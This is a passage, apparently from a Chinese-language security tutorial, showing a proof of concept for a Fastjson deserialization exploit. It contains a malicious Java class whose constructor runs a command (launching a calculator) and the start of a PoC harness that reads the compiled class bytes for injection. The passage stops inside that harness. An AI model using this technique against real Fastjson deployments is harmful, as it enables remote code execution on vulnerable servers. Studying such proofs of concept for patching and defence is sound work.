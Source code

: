 ```

```
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
}

public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

}

public evilClass1() throws IOException {
    Runtime.getRuntime().exec("calc");
}

public static void main(String[] args) throws IOException {
    evilClass1 helloworld = new evilClass1();
} 
``` `}` 
```

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

```
package ka1n4t.poc;

import org.apache.commons.io.IOUtils;

import org.apache.commons.codec.binary.Base64;

import com.alibaba.fastjson.JSON;

import com.alibaba.fastjson.parser.Feature;

import com.alibaba.fastjson.parser.ParserConfig;

import java.io.ByteArrayOutputStream;

import java.io.File;

import java.io.FileInputStream;

import java.io.IOException;

public class vulApp1 {

```
public static String readClass(String cls){
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    try {
        IOUtils.copy(new FileInputStream(new File(cls)), bos);
    } catch (IOException e) {
        e.printStackTrace();
    }
